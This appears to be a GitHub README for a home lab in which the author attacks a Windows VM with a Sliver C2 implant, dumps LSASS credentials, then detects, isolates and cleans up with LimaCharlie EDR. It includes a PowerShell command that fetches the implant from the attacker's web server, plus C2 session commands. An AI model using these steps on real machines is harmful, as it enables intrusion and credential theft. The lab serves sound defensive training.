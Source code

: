 # LimaCharlie-EDR-Lab
![Architecture](https://i.imgur.com/6mftsEk.jpg)

## Introduction

I simulated a real-life cyber attack scenario and tested the effectiveness of my security measures. I created two virtual machines on a NatNetwork: an Ubuntu Server acting as the attacker, and a Windows 11 machine as the victim.

To enhance the security of the victim machine, I installed LimaCharlie sensor and Sysmon, which helped me detect any potential attacks or security events. On the Ubuntu Server, I installed [Sliver-Server C2](https://bishopfox.com/blog/sliver), a command and control attack tool. I will be conducting a Credential Gathering attack using LSASS.exe to extract usernames and passwords. 

To test my security measures, I executed the C2 attack and created detection rules to alert administrators of any suspicious activity. This lab project aimed to demonstrate the importance of having robust security measures in place to protect against cyber attacks.

The Technologies and Tools used during this project:

* Virtual Box NatNetwork
* Virtual Machines 
  + Windows 11
  + Ubuntu Server 22.04
* LimaCharlieEDR
* Silver Server 

## Labbing

After setting up the environment, the next step involved creating a Sliver-Server C2 implant on the Ubuntu server to be installed on the Windows system.


![Implant](https://i.imgur.com/LEP0qSk.png)


To facilitate the installation process, a quick web server was set up on the Ubuntu machine. This web server would host the C2 payload, allowing it to be easily accessed and downloaded by the Windows device.

On the Windows system, a PowerShell command was executed to initiate the download and save the C2 implant. The specific PowerShell command used was:

![IWR](https://i.imgur.com/dadsDeX.png)

IWR -Uri http://[IpAddress]/[ImplantName] -Outfile [FileLocation]

In this command, [IpAddress] refers to the IP address of the Ubuntu machine hosting the C2 payload, [ImplantName] represents the name of the C2 implant file, and [FileLocation] indicates the desired location on the Windows system where the implant should be saved.

Once the C2 implant is successfully downloaded onto the Windows device, the next step would involve executing the malicious file. This execution grants the C2 infrastructure control over the compromised Windows system, allowing for remote access and potential malicious activities.

![Excute](https://i.imgur.com/mkdYQkp.png)

## Excuting Commands on Victum Device

Once inside the Sliver-Server session, we have the ability to run commands and gather information about the compromised device. Here are some commands that can be executed within the Sliver-Server session to identify the device:

![Session](https://i.imgur.com/4SE5ZEE.png)

Whoami - Hostname

PWD - Print Working Directory

Netstat - Network connections

ps -T - Process Tree (Sliver highlights its own files green )

![Tree](https://i.imgur.com/CfmWUyF.png)


## Inside LimaCharlie EDR

After successfully installing the malicious file, it is important to leverage the capabilities of our EDR (Endpoint Detection and Response) solution to gain visibility into the compromised system. Here's what can be done using the EDR solution:

Processes Analysis: Begin by examining the running processes on the compromised system. Look for any suspicious or unfamiliar processes. During the investigation, an unsigned file is discovered, highlighted in yellow, indicating a potentially malicious presence.
    
![process](https://i.imgur.com/Pts6px0.png)

File Location and LimaCharlie Filesystem Section: Upon identifying the suspicious process, investigate further to determine its file location. In this case, it is found within the Downloads folder of a user named "Victum." To gain more insights, access the LimaCharlie filesystem section to locate and analyze the identified file.
    
![filesystem](https://i.imgur.com/ksRCp3P.png)

Timeline Analysis: Shift focus to the timeline of events surrounding the installation of the malicious file. Explore the activities leading up to and following the installation to identify any relevant indicators of compromise (IOCs) or suspicious behavior. During this analysis, a network connection is observed, and it is found that the file of concern is named "COMPLEX_BELL."

![timeline](https://i.imgur.com/jYVSaNr.png)

Hash Analysis with VirusTotal: Proceed with gathering the hash of the suspicious file and conduct a lookup using VirusTotal, a popular online threat intelligence platform. However, when querying VirusTotal with the file's hash, no results are returned. This lack of detection suggests that the attacker likely crafted the file themselves, evading traditional signature-based antivirus detection.


## Credential Gathering

For attackers getting access to more than one account is critical. A way to do this is gathering creditals from the file lsass.exe. This file holds usernames, passwords and security tokens.

To learn more about LSASS Credential Gathering refer to [Mitre](https://attack.mitre.org/techniques/T1003/001/)

Running this command will copy the contents of the lsass file and dump it inside of the attackers host. 

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

To detect this method of Credential Gathering we will write a detection rule to detect this technique. 

In LimaCharlie we can enter this detection rule: 

![lsass-detection-rule](https://i.imgur.com/6bDKczs.png)

This rule will detect any interaction with the lsass file, so this could cause a lot of False Postives if administrators are using this file. But for this lab it is a good rule since we dont have any actual users. 

Now if we run the lsass dump command again

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

We will be able to detect it inside of LimaCharlie

![Lima-Detections](https://i.imgur.com/mCsvF9u.png)

## Containment & Eradication

First we need to identify if this attack took place on other devices inside the network. Since this lab only has one VM we know that there is only one. Next we should isolate this device from our network to ensure that this attacker can't move around or futher attack our internal network.

![isolate](https://i.imgur.com/E3bqXh9.png)

Then we can either return to a known good snapshot if this is a Virtual Machine. We can also delete the file inside LimaCharlie by going into the filesystem section and finding the malicous file. We will also need to inspect other logs and detections to ensure that no other attacks or malware took place on this device before we put it back on the network. 

The most important part, since this attack was stealing credientials, we need to change passwords, implement MFA and maybe change usernames to ensure the attacker cannot login to other devices or accounts. 

## Conclusion



## Credit

This project was based on a blog post by [Eric Capuano](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?sd=pf) 


